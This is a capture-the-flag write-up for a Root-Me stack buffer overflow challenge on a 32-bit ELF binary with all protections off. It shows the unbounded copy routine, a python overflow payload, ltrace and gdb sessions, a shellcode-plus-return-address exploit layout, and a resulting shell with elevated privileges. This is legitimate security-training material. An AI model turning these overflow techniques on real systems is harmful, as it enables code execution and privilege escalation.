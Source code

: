 # ELF x86 - Stack buffer overflow basic 5
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-5
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch10@challenge02.root-me.org   
Username	app-systeme-ch10
Password	app-systeme-ch10
```
According to the source code, the program requires a file's path. The file (which the path to it was given) need to contain "USERNAME=" as the first 9 bytes, and then the program will accept any 503 bytes.<br>
Then it will copy the bytes into a buffer of 128 bytes long.<br>
The vulnerable code in the function is:
```c
void cpstr(char *dst, const char *src)
{
  for(; *src; src++, dst++)
  {
    *dst = *src;
  }
  *dst = 0;
}
[...snip...]
cpstr(init.username, buff+9);
```
As you may see, there is no boundary check. Therefore an attacker can overflow the **init.username** buffer with 503 bytes at most, which will cause 375 bytes after the **init.username** to be overwritten.
Let's take a look at the **Init** struct:
```c
struct Init
{
  char username[128];
  uid_t uid;
  pid_t pid;  
};
```
The layout of the struct is pretty basic. The **Init.username** is 128, the **uid** is 4 bytes and the **pid** is 4 bytes. So in order to overflow the struct, more than 136 bytes are needed.<br>
In addition to the above, before the **Init** struct initialization there is a local **FILE *** variable. It's important to keep it the same, so _fclose_ function at line 64 when throw a signal.<br>
A quick debugging (in gdb) or a quick look at ltrace, one can see that the file pointer is 0x804b008:
```sh
app-systeme-ch10@challenge02:~$ python -c "print 'USERNAME=' + 'A'*136 + '\x08\xb0\x04\x08' + 'DDDD'" > /tmp/badfile
app-systeme-ch10@challenge02:~$ ltrace ./ch10 /tmp/badfile
__libc_start_main(0x80486bc, 2, 0xbffffc34, 0x8048770 <unfinished ...>
fopen("/tmp/badfile", "r")                                                                                                    = 0x804b008
getpid()                                                                                                                      = 27277
getuid()                                                                                                                      = 1110
fgets("USERNAME=AAAAAAAAAAAAAAAAAAAAAAA"..., 512, 0x804b008)                                                                  = 0xbffff793
fgets(nil, 512, 0x804b008)    <============================== right here                                                                                          
fclose(0x804b008)                                                                                                             = 0
printf("[+] Runing the program with user"..., "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1094795585, 1094795585[+] Runing the program with username AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp�������, uid 1094795585 and pid 1094795585.
)                  = 222
```
As one may see, it's not enough. Let's take a quick look at the _Init_ function's epilogue:
```asm
   0x080486b5 <+268>:	pop    ebx
   0x080486b6 <+269>:	pop    esi
   0x080486b7 <+270>:	pop    edi
   0x080486b8 <+271>:	pop    ebp
   0x080486b9 <+272>:	ret    0x4
```
The function doesn't just return. It returns and "deletes" the value after the return address. So, the _Init_ return value is at **ebp+8**.<br>
According to the source code, the return value is the **Init** struct. So, let's try not to mess it up.<br>
Basically, the exploit layout should look like the following:
```
    +-----------+-----------------------+-------------------+--------------------+------------------+---------------------+------------------+
    | USERNAME= | 28 bytes of SHELLCODE | 108 bytes of JUNK | FILE *file address | 28 bytes of JUNK | SHELLCODE's address | Address of EBP+8 |
    +-----------+-----------------------+-------------------+--------------------+------------------+---------------------+------------------+
```
Let's find the addresses using gdb:
```gdb
app-systeme-ch10@challenge02:~$ bash /tmp/r.sh gdb
(gdb) file ./ch10
Reading symbols from ./ch10...done.
(gdb) break *0x08048663
Breakpoint 1 at 0x8048663: file binary10.c, line 61.
(gdb) run /tmp/badfile
Starting program: /challenge/app-systeme/ch10/ch10 /tmp/badfile

Breakpoint 1, 0x08048663 in Init (filename=0xbffffe38 "/tmp/badfile") at binary10.c:61
61	binary10.c: No such file or directory.
(gdb) p &buff
$1 = (char (*)[513]) 0xbffff873
(gdb) x $ebp+8
0xbffffb20:	0xbffffb30
```
Note: The ```r.sh``` is a script from [here](https://github.com/hellman/fixenv) by [hellman](https://github.com/hellman/) which fixes the memory mismatch between inside and outside of gdb/strace/ltrace when there is no ASLR.<br><br>
So adding those addresses to the exploit will result in the following output:
```sh
$ id
uid=1110(app-systeme-ch10) gid=1110(app-systeme-ch10) euid=1210(app-systeme-ch10-cracked) groups=1210(app-systeme-ch10-cracked),100(users),1110(app-systeme-ch10)
$ cat .passwd
<censored>
```
